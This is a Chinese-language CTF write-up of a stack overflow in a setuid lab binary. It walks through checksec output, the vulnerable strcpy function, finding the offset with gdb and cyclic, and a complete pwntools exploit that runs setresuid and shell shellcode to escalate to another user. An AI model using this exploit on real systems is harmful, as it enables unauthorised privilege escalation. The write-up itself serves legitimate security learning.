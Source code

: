 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

### program

```shell
bamuwe@bamuwe:~$ checksec program
[*] '/program'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

> 保护全关，可以考虑写入shellcode

```c
char *__fastcall vuln(const char *a1)
{
  char dest[128]; // [rsp+10h] [rbp-80h] BYREF

  return strcpy(dest, a1);		//stackoverflow
}
```

> 漏洞函数

```shell
bamuwe@bamuwe:/mnt/c/Users/qianenzhao/Desktop/R$ gdb program
...
pwndbg> set args `cyclic 200`
pwndbg> r
*RIP  0x4011d9 (vuln+47) ◂— ret
____________________________________________________
 ► 0x4011d9 <vuln+47>    ret    <0x6261616b6261616a>
 ...
 bamuwe@bamuwe:~$ cyclic -l 0x6261616b6261616a
136
```

> 确定padding=136

```shell
www-data@registry:/opt/others$ ls -l
ls -l
total 16
-rwsr-xr-x 1 cxdxnt cxdxnt 15976 Jul 24  2023 program
```

思路：

1. 写入`shellcode`，填充到`ret`指令，再调用`call rax`执行`shellcode`

			2. `shellcode`由提升权限`(cxdxnt)`和获取`shell`两部分组成

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.setresuid())+asm(shellcraft.sh())
padding = 136
payload = shellcode.ljust(padding,b'A')+p32(0x401014)
shell = process(['./program',payload])
shell.interactive()
```



